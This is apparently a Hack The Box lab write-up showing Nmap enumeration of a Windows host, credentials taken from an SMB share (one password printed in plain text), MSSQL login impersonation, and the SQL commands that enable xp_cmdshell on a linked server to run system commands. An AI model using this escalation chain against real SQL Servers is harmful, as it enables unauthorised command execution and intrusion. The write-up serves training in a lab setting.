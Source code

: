 # Assessment Hard

## Enumeration

### Rustscan

```
Open 10.129.203.10:135
Open 10.129.203.10:445
Open 10.129.203.10:1433
Open 10.129.203.10:3389

```

### NMAP

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 07:27 EDT
Stats: 0:02:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.45% done; ETC: 07:34 (0:04:26 remaining)
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.92% done; ETC: 07:34 (0:03:55 remaining)
Nmap scan report for 10.129.203.10
Host is up (0.20s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-29T11:21:57
|_Not valid after:  2053-06-29T11:21:57
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-06-28T11:21:47
|_Not valid after:  2023-12-28T11:21:47
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-29T11:33:29+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (85%)
Aggressive OS guesses: Microsoft Windows Server 2019 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-29T11:33:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.45 seconds

```



<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We have access to the smb share and got all the files which seems to be credentials of all of them.

* Fiona -> not sure what level and services
* John -> Database (in this box could be MSSQL)
* Simon -> not sure too

Tried Fiona with RDP and got the credentials.

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption><p>Fiona:48Ns72!bns74@S84NNNSl</p></figcaption></figure>

Connected to the RDP session but nothing found. Tried to use the credentials with windows authen to access the mssql

Where able to impersonate to another user using fiona

```
EXECUTE AS LOGIN = 'john'
```

Realized that in John's SMB there was a file hinting to the impersonation and external database (second database).

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption><p>information.txt</p></figcaption></figure>

Found remote database.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption><p>WINSRV02\SQLEXPRESS</p></figcaption></figure>

But can't select the database server because of the impersonated user are not able to access.

I then realized that I can use the sqlcmd in the rdp session and get the list of users that I could impersonate.

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption><p>john and simon</p></figcaption></figure>

user John doesn't have any more privilege than the user Fiona, I tried to use user Simon and it was able to access the database where Fiona and John can't.

Listing the database gave me 2 different users julio and patric.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>julio and patric</p></figcaption></figure>

I confirmed that both of them are not users of the operating system so the only option left is database user. I could try to access the database with the following user and try to change the database server.

Sadly both of them were unable to make a new connection to the database.

From the Hint on Hack the box forum I realized that the John user was an admin user but on the linked database. By so I could execute command through that server.

<pre class="language-sql"><code class="lang-sql">1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
<strong>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1;
</strong><strong>2> go
</strong><strong>Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
</strong><strong>1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];     
</strong><strong>2> go
</strong><strong>1> EXECUTE ("xp_cmdshell 'dir C:\Users'") AT [LOCAL.TEST.LINKED.SRV]
</strong><strong>2> go
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption><p>flag</p></figcaption></figure>

This assessment wasn't hard but impossible, given the contents in module, no one who just started the learning path could figure this out without help.
